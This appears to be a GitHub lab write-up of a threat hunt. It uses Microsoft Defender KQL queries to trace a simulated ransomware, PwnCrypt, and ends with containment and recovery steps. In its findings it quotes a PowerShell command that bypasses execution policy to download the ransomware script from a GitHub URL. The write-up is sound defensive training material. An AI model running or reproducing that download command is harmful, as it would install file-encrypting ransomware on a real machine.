 # Zero-Day-Ransomware-PwnCrypt-Outbreak

<img width="1536" height="1024" alt="image" src="https://github.com/user-attachments/assets/84b28057-5767-4402-adaa-68f7214615ca" />

##Scenario

A new ransomware strain called PwnCrypt has emerged, using a PowerShell-based payload to encrypt files with AES-256 encryption and adding a .pwncrypt extension to targeted files. The CISO is worried about its potential spread to the corporate network and intends to investigate further.

Data Collection
Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine

<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"

Data Analysis

Hypothothis
- User "labuser," with admin permissions, ran command line code that downloaded PwnCrypt ransomware to the machine. Pwncrypt encoded files and demanded a bitcoin ransom.
Evidence
- Data finding of DeviceNetworkEvents and DeviceFileEvents above.

Investigation

- Analysis of the pwncrypt.ps1 file indicates code associated with ransom ware.

Remediation

Containment
- Block traffic to/from assoicated URL

Eradication
- Isolate endpoints with pwncrypt.ps1 file and eradicate
- Terminate additional processes (schedule tasks, etc.)
- Scan network for other signs of infection

Recovery
- Restore endpoints from last known good backup
- Verify integridy of restored systems




Remediate
- Block all traffic to malicious URI
- Remove pwncrypt.ps1 and kill related processes
- 

